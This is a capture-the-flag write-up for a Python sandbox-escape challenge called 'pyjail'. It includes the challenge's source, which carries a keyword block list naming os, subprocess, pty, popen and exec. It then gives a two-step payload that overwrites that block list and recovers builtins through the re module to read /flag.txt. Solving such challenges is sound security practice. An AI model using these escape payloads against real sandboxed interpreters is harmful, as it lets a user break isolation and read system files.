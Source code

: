 # pyjail

#### Description:
```
Escape me plz.

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024
```
#### Files:
jailbreak.py
```python
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

#### Auther:
pop_eax & Tango
#### Points and solvers:
At the end of the CTF, 95 teams solved this challenge and it was worth 437 points.

## Solution:
We first read the code carfully, notice we have two payloads to enter the code and we assume that we need to read a file in order to win.   
There are two checks that payload needs to pass, first check makes sure the payload does not contain the words `import`, `chr`, `os` etc. and the second check is quite basic and we can ignore it for now. 
Let's create the first payload with intention to remove the bounderies for the second payload, unlike in C when running an `exec` command we can interact with the variables of the progam, 
this means we can try to overwrite the `banned` or the `search_func` variables. Global python variables are saved in the `globals` dictionary, when printing it (payload = `print(globals)`) we recive:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data', 'search_func': ...}
```

Lets indeed overwrite `banned`: payload = `globals['banned'] = 'string_we_are_never_going_to_use'`, when printing again we get:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'string_we_are_never_going_to_use', 'search_func': ...}
```

Great! The second payload [can be whatever we want](https://i.imgur.com/pEq5Ohz.jpg) it to be.   
Now for the second payload. We cannot use `open` since the `open` function is part of the python `__builtins__`, a function that is built in in the laguage, and when running `exec` with `'__builtins__': {}` all of our built in function s were removed.
So what next? After a quick google search "How to restore builtins" you will arrive to [this stackoverflow answer](https://stackoverflow.com/a/25824045/7501501) that says that each python module contains builtin for itself! 
In the globals we see we can access the `re module` lets try to use the open function from this module's builtins:   
second payload = `print(globals['re'].__builtins__['open'])`

```python
<built-in function open>
```

Once again, success, now we can use any builtin function we want, even importing other modules: `globals['re'].__builtins__['__import__']('os')`, after messing around with `os` to find the flag in the file system we find that the path is `/flag.txt`, let's print it:

payload 1: `globals['banned'] = 'string_we_are_never_going_to_use'`   
payload 2: `__builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());`

### Flag:
`flag{}`

(The server shut down after the event so I do not remember the flag, believe me it works lol)
